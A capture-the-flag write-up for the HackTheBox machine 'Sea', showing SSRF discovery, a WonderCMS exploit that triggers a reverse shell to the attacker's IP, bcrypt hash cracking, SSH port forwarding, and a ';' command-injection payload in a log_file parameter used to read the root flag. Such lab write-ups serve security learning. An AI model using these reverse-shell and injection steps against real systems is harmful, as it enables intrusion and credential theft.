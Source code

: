 ```yaml
---
layout: post
title: "HTB Linux Easy: Sea"
description: "Sea is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
![Pasted image 20240811165345.png](/images/Pasted image 20240811165345.png){: .normal }

### Enumerate HTTP (Port 80)
SSRF was detected on the contact.php page. We are able to access our own Kali server.
![Pasted image 20240811202452.png](/images/Pasted image 20240811202452.png){: .normal }
```
sudo python3 -m http.server 80
[sudo] password for giiker: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.91.230 - - [11/Aug/2024 20:23:44] code 404, message File not found
10.129.91.230 - - [11/Aug/2024 20:23:44] "GET /test HTTP/1.1" 404 -
10.129.91.230 - - [11/Aug/2024 20:24:45] code 404, message File not found
10.129.91.230 - - [11/Aug/2024 20:24:45] "GET /test HTTP/1.1" 404 -
```

Identified WonderCMS 3.2.0 from theme (turboblack velik71), found login URL by googling:
```
http://sea.htb/loginURL
```

Found an exploit: [Link](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413), problem on execution: `/themes/revshell-main/rev.php`
```
WARNING: Failed to daemonise. This is quite common and not fatal. Connection refused (111)
```

Gain shell:
```
http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.15.32&lport=443
```


### User
Found hash:
```
$ cat database.js
    "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q"
```
> Remove escaped slashes.
{: .prompt-info }


Crack the hash:
```
john hash --wordlist=rockyou.txt --format=bcrypt
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mychemicalromance (?)
1g 0:00:00:11 100% 0.08424g/s 266.8p/s 266.8c/s 266.8C/s iamcool..heaven1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

User.txt:
```
amay@sea:~$ cat user.txt 
f47647ed42d5a60316d74693cebfa79d
```


### Root
Port 8080 seems to be running on localhost:
```
netstat -nlp

tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN
```

SSH port forward:
```
ssh -L 8080:localhost:8080 amay@sea.htb
```

Now we can browse to http://localhost:8080 and enter the amay users credentials for basic HTTP authentication:
![Pasted image 20240813213635.png](/images/Pasted image 20240813213635.png){: .normal }


When we intercept the "Analyze" request in burpsuite and try to get command execution by adding a ";" we end up being able to read the root flag:
```
log_file=/root/root.txt;ls&analyze_log=

flag: e8c2325e22154d4af0bd53fde4d40cf3
```


### PWNED!!!
![Screenshot from 2024-08-13 21-53-12.png](/images/Screenshot from 2024-08-13 21-53-12.png){: .normal }